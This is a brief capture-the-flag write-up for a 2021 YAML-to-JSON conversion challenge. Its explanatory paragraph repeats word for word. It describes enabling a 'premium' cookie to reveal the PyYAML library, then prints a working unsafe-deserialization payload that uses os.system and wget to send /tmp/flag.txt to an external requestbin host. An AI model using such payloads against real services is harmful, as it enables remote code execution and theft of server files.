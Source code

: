 https://yaml-2-json.ctf2021.hackpack.club/

page offers a simple conversion from .yaml to .json

website also created a cookie premium:false
it is possible to change false to true which show us a message that PyYaml library is being used. It seems that it has some arbitrary code executions vunerabilities. After some checking me and my team found that exploit to send a flag to requestbin

 ![](https://i.ibb.co/hdJ3Kpg/Screenshot-2021-04-17-Yaml-2-Json-Hackpack-CTF-2021.png)

website also created a cookie premium:false
it is possible to change false to true which show us a message that PyYaml library is being used. It seems that it has some arbitrary code executions vunerabilities. After some checking me and my team found that exploit to send a flag to requestbin


```
{
	!!python/object/apply:os.system ["wget http://requestbin.net/r/1b9a6hxj/?`cat /tmp/flag.txt`"]
}

```
